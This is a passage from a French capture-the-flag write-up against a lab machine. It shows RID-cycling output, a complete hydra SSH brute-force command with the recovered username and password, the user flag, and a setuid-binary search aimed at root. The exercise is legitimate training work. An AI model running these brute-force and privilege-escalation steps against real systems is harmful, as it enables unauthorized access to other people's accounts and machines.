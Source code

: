 ```console
[+] Found builtin group 'BUILTIN\Account Operators' (RID 548)
[+] Found builtin group 'BUILTIN\Server Operators' (RID 549)
[+] Found builtin group 'BUILTIN\Print Operators' (RID 550)
[+] Found 4 user(s), 8 group(s), 0 machine(s) in total

```

L'option `-R` permet d'utiliser la technique de RID cycling (on brute force les IDs utilisateurs). On voit donc 3 comptes Unix.

J'enchaine avec un brute force, mais sur SSH :

```console
$ hydra -u -L users.txt -P wordlists/rockyou.txt ssh://192.168.56.218:2525
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 28688762 login tries (l:2/p:14344381), ~1793048 tries per task
[DATA] attacking ssh://192.168.56.218:2525/
[STATUS] 280.00 tries/min, 280 tries in 00:01h, 28688482 to do in 1707:39h, 16 active
[STATUS] 311.33 tries/min, 934 tries in 00:03h, 28687828 to do in 1535:46h, 16 active
[2525][ssh] host: 192.168.56.218   login: blackjax   password: snowflake
```

Mot de passe trouvé pour `blackjax` ! On se connecte et on récupère le premier flag :

```console
blackjax@nitin:~$ ls
user.txt
blackjax@nitin:~$ cat user.txt 
  _    _  _____ ______ _____        ______ _               _____ 
 | |  | |/ ____|  ____|  __ \      |  ____| |        /\   / ____|
 | |  | | (___ | |__  | |__) |_____| |__  | |       /  \ | |  __ 
 | |  | |\___ \|  __| |  _  /______|  __| | |      / /\ \| | |_ |
 | |__| |____) | |____| | \ \      | |    | |____ / ____ \ |__| |
  \____/|_____/|______|_|  \_\     |_|    |______/_/    \_\_____|
                                                                 
                                                                 

Go To Root.

MD5-HASH : f589a6959f3e04037eb2b3eb0ff726ac
```

On nous dit d'aller vers `root`. Ce sera via les binaires setuid :

```console
blackjax@nitin:~$ find / -type f -perm -u+s -ls 2> /dev/null 
--- snip ---
   390425     36 -rwsr-xr-x   1 root     root          34680 May 17  2017 /usr/bin/newgrp
   409971      8 -rwsr-xr-x   1 root     root           7432 Nov  4  2019 /usr/bin/netscan
   390520    160 -rwsr-xr-x   1 root     root         159852 Jul  4  2017 /usr/bin/sudo
--- snip ---
```
